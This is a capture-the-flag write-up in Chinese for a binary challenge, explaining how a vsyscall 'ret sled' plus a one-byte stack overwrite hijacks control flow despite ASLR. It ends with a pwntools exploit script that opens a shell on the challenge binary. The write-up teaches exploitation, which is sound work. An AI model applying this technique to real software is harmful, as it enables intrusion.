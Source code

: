 # 无法利用的漏洞

- 题目分类：binary

- 题目分值：300

「我写了一个不会被黑的程序！」

「谁信啊，难不成你就写了个 Hello, world？」

「当然不。我把编译器所有安全加固的选项都开启了，就算我故意留漏洞，你也没办法利用。」

「嗯？」

`nc 202.38.93.241 10014` 或者使用 [网页终端](http://202.38.93.241:10015/?token={token})

Hint: Do you know how to make syscall faster?

[打开/下载题目](src/impossible)

---
本题考查利用vsyscall实现漏洞利用，利用条件是栈上的数据没有清理干净同时系统开启了vsyscall。这道题是希望理解了基本ROP的同学通过提示“Do you know how to make syscall faster?”学习vsyscall的利用方法。这个漏洞有趣的地方在于，只要满足利用条件，即使开了aslr而且编译器保护全开也能劫持控制流。

# 解答
vsyscall的全称是virtual system call，当初引入这个机制是为了减少系统调用时从用户态切换到内核态的开销。某些系统调用并不会向内核传递参数，而仅仅是从内核里请求读取某个数据，比如gettimeofday。所以可以直接把gettimeofday的实现直接映射到用户空间中，这样就避免了用户态到内核态转换的开销。（实际上还有个好处是对于gettimeofday这种对时间要求比较精确的函数，实现快速系统调用更加的科学）
但是vsyscall有很严重的安全问题，vsyscall用户空间映射的地址是固定的，64位系统上是0xffffffffff600000。把题目在开启了vsyscall的机器上跑起来，查看一下内存映射状态如下：

![1](images/1.png)

虽然设计者限制了只有从vsyscall的函数入口进入才能正常运行(避免了拿这个ret作为gadget来ROP),但是我们可以反复调用vsyscall来不断地调用ret像滑雪橇一样破坏栈平滑。只要栈上有.text段的地址没有清除干净，通过修改最低位就劫持了控制流。把二进制文件丢到IDA里分析一波发现其实留了个后门，那么思路就很简单了,只要栈上数据不干净就能利用了。gdb打个断点看看栈上的情况：

![2](images/2.png)

果然没有清理干净，那么直接写exp然后就pwn成功啦！

```python
#!/usr/bin/env python
# encoding: utf-8
from pwn import *
import random, string
from hashlib import sha256
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
debug = 1

if debug:
    io = process('./impossible')
else:
    io = remote("127.0.0.1", 10001)

io.recvuntil("Hack me please!\n")
gdb.attach(io.pid)
vsyscall = 0xffffffffff600000
io.interactive()
io.send(p64(vsyscall)*30+'\x6b')
io.recv()
io.sendline('/bin/sh')
io.sendline('cat flag')
io.interactive()
```
